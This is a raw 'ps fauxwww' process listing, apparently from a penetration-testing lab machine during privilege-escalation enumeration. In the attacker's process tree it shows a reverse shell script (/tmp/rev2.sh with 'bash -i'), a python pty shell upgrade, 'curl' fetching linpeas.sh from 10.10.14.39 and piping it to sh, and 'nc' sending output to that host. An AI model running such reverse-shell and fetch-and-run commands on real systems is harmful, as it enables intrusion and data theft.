 aepike   24244  0.0  0.0  15104  1116 ?        S    Jun14   0:17  _ ping 10.10.14.39
aepike   25700  0.0  0.0  11600  3112 ?        S    17:00   0:00  _ bash /tmp/rev2.sh
aepike   25701  0.0  0.1  21248  4824 ?        S    17:00   0:00  |   _ /bin/bash -i
aepike   25724  0.0  0.2  38968  9768 ?        S    17:02   0:00  |       _ python3 -c import pty; pty.spawn("/bin/bash")
aepike   25725  0.0  0.1  21368  5120 pts/0    Ss+  17:02   0:00  |           _ /bin/bash
aepike   25770  0.0  0.0  11600  3208 ?        S    17:19   0:00  _ bash /tmp/rev2.sh
aepike   25771  0.0  0.1  21248  4840 ?        S    17:19   0:00      _ /bin/bash -i
aepike   25794  0.0  0.2  38968  9884 ?        S    17:20   0:00          _ python3 -c import pty; pty.spawn("/bin/bash")
aepike   25795  0.0  0.1  21368  4864 pts/2    Ss   17:20   0:00              _ /bin/bash
aepike   25805  0.0  0.2 105884  9124 pts/2    S+   17:20   0:00                  _ curl 10.10.14.39:8000/linpeas.sh
aepike   25806  0.1  0.0   5488  2772 pts/2    S+   17:20   0:00                  _ sh
aepike   29362  0.0  0.0   5488  1068 pts/2    S+   17:20   0:00                  |   _ sh
aepike   29365  0.0  0.0  38704  3848 pts/2    R+   17:20   0:00                  |   |   _ ps fauxwww
aepike   29366  0.0  0.0   5488  1068 pts/2    S+   17:20   0:00                  |   _ sh
aepike   25807  0.0  0.0  15720  2200 pts/2    S+   17:20   0:00                  _ nc 10.10.14.39 9002
message+  1277  0.0  0.1  50080  4780 ?        Ss   Jun10   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
  └─(Caps) 0x0000000020000000=cap_audit_write
syslog    1322  0.0  0.1 263048  5244 ?        Ssl  Jun10   0:00 /usr/sbin/rsyslogd -n
root      1366  0.0  0.0 604928  2516 ?        Ssl  Jun10   0:04 /usr/bin/lxcfs /var/lib/lxcfs/
daemon[0m    1373  0.0  0.0  28336  2404 ?        Ss   Jun10   0:00 /usr/sbin/atd -f
root      1381  0.0  0.7 1409540 28460 ?       Ssl  Jun10   0:17 /usr/lib/snapd/snapd
root      1383  0.0  0.1 288884  6608 ?        Ssl  Jun10   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1456  0.0  0.0  14896  2044 tty1     Ss+  Jun10   0:00 /sbin/agetty -o -p -- u --noclear tty1 linux
root      1500  0.0  0.0 141128  1576 ?        Ss   Jun10   0:00 nginx: master process /usr/sbin/nginx -g daemon[0m on; master_process on;
www-data  1501  0.0  0.1 144080  7492 ?        S    Jun10   0:00  _ nginx: worker process
www-data  1502  0.0  0.1 144132  7132 ?        S    Jun10   0:00  _ nginx: worker process
root      1540  0.0  0.1  72304  6484 ?        Ss   Jun10   0:00 /usr/sbin/sshd -D
root     21546  0.0  0.7 1156612 31560 ?       Ssl  Jun11   0:37 /usr/lib/lxd/lxd --group lxd --logfile=/var/log/lxd/lxd.log
aepike   25928  0.0  0.0  92032   596 ?        Ss   Jun11   0:00 gpg-agent --homedir /home/aepike/.gnupg --use-standard-socket --daemon[0m
lxd      21712  0.0  0.0  51604   388 ?        S    Jun11   0:00 dnsmasq --strict-order --bind-interfaces --pid-file=/var/lib/lxd/networks/lxdbr0/dnsmasq.pid --except-interface=lo --interface=lxdbr0 --quiet-dhcp --quiet-dhcp6 --quiet-ra --listen-address=10.107.185.1 --dhcp-no-override --dhcp-authoritative --dhcp-leasefile=/var/lib/lxd/networks/lxdbr0/dnsmasq.leases --dhcp-hostsfile=/var/lib/lxd/networks/lxdbr0/dnsmasq.hosts --dhcp-range 10.107.185.2,10.107.185.254,1h --listen-address=fd42:47f7:1cf0:5982::1 --enable-ra --dhcp-range ::,constructor:lxdbr0,ra-stateless,ra-names -s lxd -S /lxd/ --conf-file=/var/lib/lxd/networks/lxdbr0/dnsmasq.raw -u lxd
  └─(Caps) 0x0000000000003000=cap_net_admin,cap_net_raw
root     21829  0.0  0.0   1584   888 ?        Ss   Jun11   0:00  _ /sbin/init
root     21993  0.0  0.0   1584   944 pts/1    Ss+  Jun11   0:00      _ /sbin/getty 38400 console

